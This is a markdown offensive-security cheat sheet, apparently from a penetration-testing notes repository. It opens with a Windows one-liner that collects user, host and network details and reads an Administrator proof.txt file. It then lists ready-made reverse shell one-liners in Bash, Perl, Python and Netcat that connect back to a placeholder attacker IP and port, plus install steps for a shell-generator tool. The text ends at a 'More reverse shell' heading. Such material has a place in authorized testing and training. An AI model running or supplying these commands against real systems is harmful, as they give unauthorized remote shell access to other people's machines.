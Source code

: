 ### Windows

```
echo. & echo. & echo whoami: & whoami 2> nul & echo %username% 2> nul & echo. & echo Hostname: & hostname & echo. & ipconfig /all & echo. & echo proof.txt: &  type "C:\Documents and Settings\Administrator\Desktop\proof.txt"
```

---

## REVERSE SHELL

### Amazing tool for shell generation

```
# Download
git clone https://github.com/ShutdownRepo/shellerator

# Install requirements
pip3 install --user -r requirements.txt

# Executable from anywhere
sudo cp shellrator.py /bin/shellrator
```

### Bash

```
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

### Perl

```
perl -e 'use Socket;$i="<IP>";$p=<PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Netcat

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```

### More reverse shell
